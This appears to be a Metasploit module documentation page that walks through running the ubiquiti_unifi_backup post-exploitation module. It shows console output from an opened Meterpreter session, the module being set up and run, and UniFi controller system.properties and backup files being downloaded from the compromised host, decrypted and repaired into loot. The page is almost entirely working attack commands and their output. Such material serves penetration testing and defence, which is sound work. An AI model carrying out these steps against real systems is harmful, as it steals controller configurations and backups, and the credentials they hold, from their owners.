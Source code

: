 ```
[*] Meterpreter session 2 opened (1.1.1.1:4433 -> 2.2.2.2:37124) at 2019-03-10 15:58:25 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
```

#### Module

```
resource (unifi.rb)> use post/multi/gather/ubiquiti_unifi_backup
resource (unifi.rb)> set verbose true
verbose => true
resource (unifi.rb)> set session 2
session => 2
resource (unifi.rb)> run

[*] File /var/lib/unifi/system.properties saved to /root/.msf4/loot/20190310155835_default_2.2.2.2_ubiquiti.system._487688.txt
[+] Read UniFi Controller file /var/lib/unifi/system.properties
[-] Directory doesn't exist: /data/autobackup
[+] Found backup folder: /var/lib/unifi/backup
[+] File /var/lib/unifi/backup/5.10.19.unf saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_802011.unf
[+] File 5.10.19.unf DECRYPTED and saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_933774.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File /var/lib/unifi/backup/5.10.19.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_271407.zip.
[*] Post module execution completed
```

#### Details

```
msf5 post(multi/gather/ubiquiti_unifi_backup) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 18.04 (Linux 4.18.0-16-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 2...
msf5 post(multi/gather/ubiquiti_unifi_backup) > loot

Loot
====

host           service  type                                      name                                                          content          info                                                   path
----           -------  ----                                      ----                                                          -------          ----                                                   ----
2.2.2.2                 ubiquiti.system.properties                /var/lib/unifi/system.properties                              text/plain                                                              /root/.msf4/loot/20190310155835_default_2.2.2.2_ubiquiti.system._487688.txt
2.2.2.2                 ubiquiti.unifi.backup                     5.10.19.unf                                                   application/zip  Ubiquiti Unifi Controller Encrypted Backup Zip         /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_802011.unf
2.2.2.2                 ubiquiti.unifi.backup_decrypted           5.10.19.unf.broken.zip                                        application/zip  Ubiquiti Unifi Controller Decrypted Broken Backup Zip  /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_933774.zip
```